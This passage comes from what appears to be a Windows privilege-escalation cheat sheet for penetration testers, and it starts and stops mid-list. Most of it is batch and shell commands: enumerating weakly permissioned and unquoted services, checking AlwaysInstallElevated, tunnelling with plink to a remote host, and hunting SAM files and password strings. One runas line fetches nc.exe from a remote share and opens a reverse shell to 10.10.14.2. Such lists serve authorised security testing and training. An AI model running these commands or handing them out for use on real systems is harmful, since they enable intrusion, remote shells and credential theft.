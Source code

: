     ```
  - Check service with weak file permission  
    ```bat
    for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
    for /f eol^=^"^ delims^=^" %a in (c:\windows\temp\permissions.txt) do cmd.exe /c icacls "%a"  
    ```
    ```bat
    sc.exe  
    sc query state= all | findstr "SERVICE_NAME:" >> Servicenames.txt  
    FOR /F %i in (Servicenames.txt) DO echo %i  
    type Servicenames.txt  
    FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt  
    FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt  
    ```
  - Unquoted Service Path  
    ```bat
    wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """  
    sc query  
    sc qc service name  
    ```
  - AlwaysInstallElevated << IF 64 bits use:  %SystemRoot%\Sysnative\reg.exe  
    ```
    reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated  
    reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated  
    ```
  - Service only available from inside  
    ```
    netstat -ano  
    upload plink.exe  
    plink.exe -R "remote port":127.0.0.1:"local port"  root@"ipaddress"
    ```
- Passwords in files/registry
  - <https://pentestlab.blog/tag/privilege-escalation/page/3/>
  - `cmdkey /list` If there are entries, it means that we may able to runas certain user who stored his cred in windows  
    - `runas /savecred /user:ACCESS\Administrator "c:\windows\system32\cmd.exe /c \\IP\share\nc.exe -nv 10.10.14.2 80 -e cmd.exe"`
  - SAM file
    ```
    %SYSTEMROOT%\repair\SAM  
    %SYSTEMROOT%\System32\config\RegBack\SAM  
    %SYSTEMROOT%\System32\config\SAM  
    %SYSTEMROOT%\repair\system  
    %SYSTEMROOT%\System32\config\SYSTEM  
    %SYSTEMROOT%\System32\config\RegBack\system  
    ```
  - Find
    ```
    findstr /si password *.txt  
    findstr /si password *.xml  
    findstr /si password *.ini  
    findstr /si pass/pwd *.ini  
    ```
    ```
    dir /s *pass* == *cred* == *vnc* == *.config*  
    ```
    ```
    findstr /spin "password" *.*  
    findstr /spin "password" *.*  
    ```
  - Specific credential files:
    ```